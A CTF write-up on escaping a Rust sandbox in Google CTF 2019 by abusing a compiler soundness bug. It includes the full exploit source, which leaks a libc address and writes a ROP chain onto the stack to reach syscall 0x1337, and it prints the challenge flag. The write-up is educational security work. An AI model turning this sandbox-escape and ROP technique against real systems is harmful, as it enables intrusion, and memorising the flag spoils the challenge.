

# Sandstone - 383 points

Sandstone was a sandbox challenge in Google CTF 2019. I was playing with 5BC, we got 9th place.

The challenge description:
```
Everyone does a Rust sandbox, so we also have one!
```

## Intro to Rust
Rust is a systems programming language that is designed to be memory safe like java/python but also delivers the same performance as languages like C++.
Rust achieves this by using a sophisticated compiler technology that forbids having an object which is both shared and mutable. This prevents many classes of memory corruption bugs.
It also comes with a package manager called cargo, which is used to build Rust crates (libraries).
Rust has also builtin support for [FFI](https://en.wikipedia.org/wiki/Foreign_function_interface) (e.g. talking to C code) and an ability to relax the compiler restrictions using the [unsafe](https://doc.rust-lang.org/book/ch19-01-unsafe-rust.html) keyword to build abstraction which the compiler cannot reason about being safe. Both FFI and unsafe can change raw memory and cause a program not to be memory safe - this is also called unsound.

## The Challenge
In the challenge [zip](bdf3d61937fa0e130646d358b445966f16870107defa368fbc66a249c94fd6e1.zip), we get two main files - `main.rs` - which is the only Rust source and a `Dockerfile`.

Let's first look at the `Dockerfile`:
```docker
FROM ubuntu:19.04

RUN apt update && apt install -y wget build-essential libseccomp-dev
ENV CARGO_HOME=/opt/cargo RUSTUP_HOME=/opt/rustup PATH="${PATH}:/opt/cargo/bin"
ADD https://sh.rustup.rs /rustup-init
RUN chmod a+x /rustup-init && /rustup-init -y --default-toolchain nightly-2019-05-18 && rm /rustup-init

RUN set -e -x; \
    groupadd -g 1337 user; \
    useradd -g 1337 -u 1337 -m user

RUN mkdir -p /chall/src
WORKDIR /chall
COPY flag Cargo.toml Cargo.lock /chall/
COPY src/main.rs /chall/src/main.rs
RUN cargo build --release

# Ignore ptrace-related failure, this is just for caching the deps.
RUN echo EOF | ./target/release/sandbox-sandstone || true

RUN set -e -x ;\
    chmod +x /chall/target/release/sandbox-sandstone; \
    chmod 0444 /chall/flag

CMD ["/chall/target/release/sandbox-sandstone"]
```

Looks straight forward, the challenge setup downloads the rust toolchain, builds the challenge binary, sets-up the flag and runs the challenge binary.

Noteworthy is the use of the nightly toolchain, in Rust, the nightly toolchain is where the language developers are allowed to experiment with unstable/bleeding edge features. It's also where new features like [nll](https://github.com/rust-lang/rfcs/blob/master/text/2094-nll.md) or [pin](https://github.com/rust-lang/rfcs/blob/master/text/2349-pin.md) were/are developed.

The main challenge binary `sandbox-sandstone` will read Rust code from the user, inject it into a Rust project template and execute the user code.

Let's look at the `read_code` function:
```rust
fn read_code() -> String {
    use std::io::BufRead;

    let stdin = std::io::stdin();
    let handle = stdin.lock();

    let code = handle
        .lines()
        .map(|l| l.expect("Error reading code."))
        .take_while(|l| l != "EOF")
        .collect::<Vec<String>>()
        .join("\n");

    for c in code.replace("print!", "").replace("println!", "").chars() {
        if c == '!' || c == '#' || !c.is_ascii() {
            panic!("invalid character");
        }
    }

    for needle in &["libc", "unsafe"] {
        if code.to_lowercase().contains(needle) {
            panic!("no {} for ya!", needle);
        }
    }

    code
}
```

The input code has some restrictions:

* It cannot contain the words `libc` or `unsafe` - to prevent the use of ffi and unsafe code
* It cannot contain the `#` and `!` characters - to prevent the use of macros and compiler directives, we could have used to generate code that uses unsafe / libc
* All characters must be ascii - probably to make sure the restrictions above are not bypassed

Our code is injected into the following template:

```rust
// src/sandstone.rs

#![feature(nll)]
#![forbid(unsafe_code)]

pub fn main() {
    println!("{:?}", (REPLACE_ME));
}
```

The main function of our program will setup a `seccomp-bpf` filter which only allows:

* write - to stdout
* sigaltstack
* mmap
* munmap
* exit_group
* And a trace event for syscall number `0x1337`

Meaning that we cannot simply read the flag directly from the file system.
Looking at the challenge binary, it executes our code, attaches to our process with `ptrace` and continues to monitor our process for events. If we manage to execute syscall number `0x1337` the challenge binary will print the flag:

```rust
    loop {
        let mut status: c_int = 0;
        let pid = unsafe { wait(&mut status) };
        assert!(pid != -1);

        if unsafe { WIFEXITED(status) } {
            break;
        }

        if (status >> 8) == (SIGTRAP | (PTRACE_EVENT_SECCOMP << 8)) {
            let mut nr: c_ulong = 0;
            assert!(unsafe {
                ptrace(PTRACE_GETEVENTMSG, pid, 0, &mut nr)
            } != -1);

            if nr == 0x1337 {
                assert!(unsafe {
                    ptrace(PTRACE_KILL, pid, 0, 0)
                } != -1);
                print_flag(); // <--- print the flag!
                break;
            }
        }

        unsafe { ptrace(PTRACE_CONT, pid, 0, 0) };
    }
```

So our challenge is clear, we need to execute the syscall `0x1337`, however, it's not so simple. Rust doesn't allow calling directly to syscalls without using the unsafe keyword. So we somehow need to break the safety guarantees that Rust provides and beat the compiler.

My teammate `real` who is an experienced Rust developer, encountered a crash in safe Rust using async code with the `Pin` trait in nightly Rust. He suggested that we go through the Github issues for rust-lang and try to find a bug that allows for memory corruptions. Helpfully rust-lang has a label for bugs in the compiler that cause safety issues [`I-Unsound`](https://github.com/rust-lang/rust/issues?q=is%3Aopen+is%3Aissue+label%3A%22I-unsound+%F0%9F%92%A5%22). We started looking for a bug that is present in the nightly version that we were running and after a while, we got issue [57893](https://github.com/rust-lang/rust/issues/57893), which is a pretty interesting bug. Let's look at the code:

```rust
trait Object {
    type Output;
}

trait Marker<'b> {}
impl<'b> Marker<'b> for dyn Object<Output=&'b u64> {}

impl<'b, T: ?Sized + Marker<'b>> Object for T {
    type Output = &'static u64;
}

fn foo<'a, 'b, T: Marker<'b> + ?Sized>(x: <T as Object>::Output) -> &'a u64 {
    x
}

fn transmute_lifetime<'a, 'b>(x: &'a u64) -> &'b u64 {
    foo::<dyn Object<Output=&'a u64>>(x)
}

// And yes this is a genuine `transmute_lifetime`!
fn get_dangling<'a>() -> &'a u64 {
    let x = 0;
    transmute_lifetime(&x)
}

fn main() {
    let r = get_dangling();
    println!("stack leak {:x}", r);
}
```

The piece of code above allows you to transmute an object lifetime with another lifetime. [Lifetimes](https://doc.rust-lang.org/1.9.0/book/lifetimes.html) are how the Rust compiler and language manage object reference validity, when a lifetime of an object ends it is dropped (destructed). Violating lifetime rules causes the famous Rust compiler error: ```error[E0597]: `borrow` does not live long enough```.

The code above causes the compiler to think that we have a reference to a valid object while the object was already destructed. The reference in the code above points to a memory location on a higher stack frame.
At first, it looked like a memory leak bug, but a closer inspection revealed that we can change the type to `mut`, which causes the reference to be writable, which enables us to write to the stack!

Our exploitation plan was as follows:

1. Get a read/write pointer to the stack
2. Leak libc
3. Write an array to the stack of rop gadgets
4. Call a recursive function which will raise the stack and hopefully collide the return address with our dangling pointer
5. Within the recursion, use the dangling pointer to write our gadget to the stack and stop the recursion.
6. Profit!



We tried to build a recursion that will land on our stack pointer, but it proved very hard to control. We actually have given up on the bug and moved to other issues.
While working on other bugs we realized we could change the type of this function to return a slice (a reference to a continuous memory of some type) of `u64`. This will allow us to leak/write a lot more data which will enable us to write a rop chain directly to the stack.

We had a working prototype but it didn't work on the challenge binary. It turns out that the binary is compiled with release flags, while we were developing with a debug flags. Rust's llvm backend proved to be very powerful in inlining and optimizing the code, it eliminated our original recursion code and caused the dangling pointer code to be inlined to the main function and thus prevented us from using the bug, since the dangling pointer laid within our stack frame.

Luckily one of my teammates Liad is an llvm developer, which helped us kill the annoying optimizations - we used `dyn` trait (objects with vtable) to call the `get_dangling` function and get a dangling pointer to a higher stack frame, and hard data dependencies within the recursion to prevent inlining.

Putting this all [together](ex.rs):

```rust
{
use std::io;
use std::io::prelude::*;

trait A {
    fn my_func(&self) -> &mut [u64];
}

struct B {
    b: u64,
}
struct C {
    c: u64,
}

impl A for B {
    fn my_func(&self) -> &mut [u64] {
        get_dangling()
    }
}

impl A for C {
    fn my_func(&self) -> &mut [u64] {
        get_dangling()
    }
}

fn is_prime(a: u64) -> bool {
    if a < 2 {
        return false;
    }
    if a % 2 == 0 {
        return true;
    }
    for i in 3..a {
        if a % i == 0 {
            return false;
        }
    }
    true
}

fn get_trait_a() -> Box<dyn A> {
    let n = if let Ok(args) = std::env::var("CARGO_EXTRA_ARGS") {
        args.len() as usize
    } else {
        791913
    };

    if is_prime(n as u64) {
        Box::new(B { b: 0 })
    } else {
        Box::new(C { c: 0 })
    }
}

trait Object {
    type Output;
}

impl<T: ?Sized> Object for T {
    type Output = &'static mut [u64];
}

fn foo<'a, T: ?Sized>(x: <T as Object>::Output) -> &'a mut [u64] {
    x
}

fn transmute_lifetime<'a, 'b>(x: &'a mut [u64]) -> &'b mut [u64] {
    foo::<dyn Object<Output = &'a mut [u64]>>(x)
}

// And yes this is a genuine `transmute_lifetime`
fn get_dangling<'a>() -> &'a mut [u64] {
    io::stdout().write(b"hello\n");
    let mut a: [u64; 128] = [0; 128];
    let mut x = 0;
    transmute_lifetime(&mut a)
}

fn my_print_str(s: &str) {
    io::stdout().write(s.as_bytes());
}

fn my_print(n: u64) {
    let s: String = n.to_string() + "\n";
    io::stdout().write(s.as_bytes());
}

// This function is only used to raise the stack frame and allow the dangling 
// slice to overwrite the stack frame of low stack frames.
fn rec(a: &mut [u64], b: &mut [u64], attack: &mut [u64], n: u64, lib_c: u64) {
    let mut array: [u64; 3] = [0; 3];
    a[0] += 1;
    b[0] += 1;

    array[0] = a[0] + 1;
    array[1] = a[0] + b[1] + 1;

    if a[0] > n {

        // ubuntu 19.04
        let pop_rax_ret = lib_c + 0x0000000000047cf8;
        let syscall_inst = lib_c + 0x0000000000026bd4;
        let ret = lib_c + 0x026422;

        // Overwrite the stack with ret slide
        for (j, el) in attack.iter_mut().enumerate() {
            *el = ret;
        }

        // Write our small rop chain            
        let x = 50;
        attack[x] = pop_rax_ret;
        attack[x + 1] = 0x1337;
        attack[x + 2] = syscall_inst;

        // Trigger
        return;
    }

    // Random calculation to kill compiler optimizations.
    if a[0] > 30 {
        b[0] = a[0] + a[1];
        rec(b, &mut array, attack, n, lib_c);
    } else {
        b[1] = a[2] + a[0];
        rec(&mut array, a, attack, n, lib_c);
    }
}

// using external variables to kill compiler optimizations
let n = if let Ok(args) = std::env::var("BLA") {
    args.len() as usize
} else {
    30
};

// using external variables to kill compiler optimizations
let n2 = if let Ok(args) = std::env::var("BLA") {
    10
} else {
    100
};

// Using the dyn trait so that the compiler will execute the
// get_dangling function in a higher stack frame. 
let my_a = get_trait_a();
// getting the random stack
let mut r = my_a.my_func();

// Just random content
let mut v: Vec<u64> = Vec::with_capacity(n);
v.push(1);
v.push(1);
v.push(1);

// Adding some content;
let mut b: Vec<u64> = Vec::with_capacity(n);
b.push(1);
b.push(2);
b.push(3);

// We need to write output buffers to get lib-c gadgets
my_print_str("Give me gadegts\n");
let lib_c_addr = r[62];
let lib_c = lib_c_addr - 628175;

my_print_str("===============\nlib_c base = ");
my_print(lib_c);
my_print_str("===============\n");

// Exploit
rec(&mut v, &mut b, r, n2, lib_c);

}
```

Finally we got the flag:
`CTF{InT3ndEd_8yP45_w45_g1tHu8_c0m_Ru5t_l4Ng_Ru5t_1ssue5_31287}`

## Final notes

We didn't end up using issue 31287, I'm not sure it would have been easier to exploit than our issue. The challenge was really fun and interesting, I learned a lot more Rust. However, as a hobbyist Rust developer, it was really scary and painful to discover how many soundness bugs the language has. Maybe it's time to start contributing to Rust.
